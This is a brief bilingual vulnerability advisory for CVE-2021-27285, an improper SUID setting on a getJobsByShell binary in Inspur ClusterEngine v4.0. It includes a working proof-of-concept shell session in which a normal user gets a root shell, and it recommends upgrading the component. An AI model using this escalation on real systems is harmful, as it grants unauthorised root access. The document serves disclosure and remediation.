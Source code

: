 # CVE-2021-27285

浪潮ClusterEngine集群管理平台是专为浪潮天梭系列HPC产品定制的一款作业管理软件。浪潮ClusterEngine存在suid配置不当的问题，导致非管理员用户可以通过部分组件进行提权获得root权限。

浪潮clusterenginev4.0存在[组件](getJobsByShell)“/opt/tsce4/torque6/bin/getJobsByShell”suid配置不当问题，非管理员用户能通过suid提权方式获得root权限。

提权过程如下：

```bash
[inspur@mu01 ~]$ whoami
inspur
[inspur@mu01 ~]$ /opt/tsce4/torque6/bin/getJobsByShell /bin/sh
sh-4.2# whoami
root
sh-4.2#
```
修复建议：
升级相关组件

The Inspur ClusterEngine cluster management platform is a job management software specifically designed for Inspur TianSuo series HPC products. A misconfiguration in the SUID settings of Inspur ClusterEngine allows non-administrative users to escalate privileges and obtain root access through certain components.


Inspur ClusterEngine v4.0 has an improper SUID configuration issue with the [component](getJobsByShell) "/opt/tsce4/torque6/bin/getJobsByShell", allowing non-administrative users to escalate privileges and gain root access via the SUID mechanism.

The privilege escalation process is as follows:


```bash
[inspur@mu01 ~]$ whoami
inspur
[inspur@mu01 ~]$ /opt/tsce4/torque6/bin/getJobsByShell /bin/sh
sh-4.2# whoami
root
sh-4.2#
```
advisory：
patch the relevant components.








